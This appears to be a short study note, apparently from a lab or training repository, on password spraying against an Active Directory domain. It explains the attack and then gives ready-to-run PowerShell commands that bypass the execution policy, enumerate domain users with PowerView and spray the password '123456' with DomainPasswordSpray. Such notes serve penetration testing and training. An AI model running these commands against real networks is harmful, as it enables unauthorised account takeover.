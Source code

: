 
### Password Spraying
- An Attack where we try to authenticate with curated list of passwords that are either frequently used of likely to be used by their target.
- Password spraying can be conducted against internet facing system or after gaining a foothold within the network and is seeking to widen their access. 
- Frequent targets for password spraying includes VPN servers, web based email applications and single sign on providers. 
- Trying passwords against as many users as possible.


### Practical:

##### Scenario
We are operating under assume breached. It means we have already accessed to a system, and we have to perform the following tasks. 

1. Identify all the users in the domain
2. Initiate the password spraying attack
3. Execution and verification of the password spraying attack



##### Bypassing the Powershell execution policy

```powershell
powershell -ep bypass
```

##### Loading and Running Powerview

```powershell
. .\powerview.ps1
```

Saved all the users in the file. 
```powershell
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File user.txt
```


##### Password Spraying with `DomainPasswordSpray.ps1`

Loaded the `DomainPasswordSpray.ps1`

```
. .\DomainPasswordSpray.ps1 
```

```
Invoke-DomainPasswordSpray -UserList .\user.txt -Password 123456 -Verbose
```

Followed by yes. 


